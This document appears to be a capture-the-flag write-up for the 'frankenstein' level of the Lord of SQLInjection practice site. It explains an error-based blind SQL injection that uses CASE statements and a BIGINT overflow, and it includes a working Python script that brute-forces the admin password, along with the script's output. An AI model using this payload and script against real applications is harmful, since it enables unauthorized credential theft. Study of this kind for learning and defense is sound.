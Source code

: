 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 28
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/6915fb41-8baa-45e1-98b3-c45d05e0ec03)

We are provided with the SQL query:

```sql
SELECT id,pw FROM prob_frankenstein WHERE id='frankenstein' AND pw='{$_GET[pw]}'
```

## Filter:

This challenge filters the following: `_`, `.`, `(`, `)`, `union`.

Therefore we cannot use the  `length()` function and `if()` statements.
In order to get around this, we will have to use `CASE` statements.

## Error-based Blind SQL Injection

### ERROR 1690 (22003): BIGINT value is out of range[​](https://writeups-kunull.vercel.app/Lord%20of%20SQLInjection/iron_golem#error-1690-22003-bigint-value-is-out-of-range "Direct link to ERROR 1690 (22003): BIGINT value is out of range")

In SQL the maximum value for a column is `9223372036854775807`. If the value exceeds the limit, it throws the `ERROR 1690 (22003): BIGINT value is out of range` error message.

This is the error we will be exploiting.
### Wildcard

We also need to use the (`%`) wildcard character. It represents zero or more characters after teh specified character.

```
1% = 10, 100, 1200, etc
```

If we provide the following URI parameter:

```
?id=' || CASE WHEN id='admin' AND pw LIKE '[password_substring]%' THEN 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF ELSE 0 END -- -
```

The resultant query becomes:

```sql
SELECT id,pw FROM prob_frankenstein WHERE id='' || CASE WHEN id='admin' AND pw LIKE '[password_substring]%' THEN 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF ELSE 0 END -- -' AND pw='{$_GET[pw]}'
```

If the `[password_substring]` that we provide for `id='admin'` matches part of the `pw`, the `0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF` operation will be performed. Since the result of the multiplication operation would be greater than `9223372036854775807`, the challenge would throw an error if the condition is met.

### Script

```python title="frankenstein_script.md"
import requests
import urllib.parse
import string

cookies = {'PHPSESSID': '4qt1p0e0vguiq8oousdc88vhv9'}
url = 'https://los.rubiya.kr/chall/frankenstein_b5bab23e64777e1756174ad33f14b5db.php'

password = ''
end = False
searchspace = string.digits + string.ascii_letters
print()

for index in range(1, 100):
  if (end == True):
    break
  end = True

  for char in searchspace:
    payload = f"' || CASE WHEN id='admin' AND pw LIKE '{password}{char}%' THEN 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF ELSE 0 END -- -"
    encoded_payload = urllib.parse.quote_plus(payload)
    full_url = f'{url}?pw={encoded_payload}'

    response = requests.get(full_url, cookies=cookies)

    if ("login_chk" in response.text):
      continue
    elif ("error" in response.text):
      print(f'[+] Character at index {index}: {char}')
      password = password + char
      end = False
      break

print()
print(f'[!] Extracted password: {password}')
print(f'[!] Final payload: ?pw={password}')
```

```
$ python .\frankenstein_script.py

[+] Character at index 1: 0
[+] Character at index 2: d
[+] Character at index 3: c
[+] Character at index 4: 4
[+] Character at index 5: e
[+] Character at index 6: f
[+] Character at index 7: b
[+] Character at index 8: b

[!] Extracted password: 0dc4efbb
[!] Final payload: ?pw=0dc4efbb
```

If we provide the following URI parameter:

```
?pw=0dc4efbb
```

The resultant query becomes:

```sql
SELECT id,pw FROM prob_frankenstein WHERE id='frankenstein' AND pw='0dc4efbb'
```

![Uploading 2.png…]()

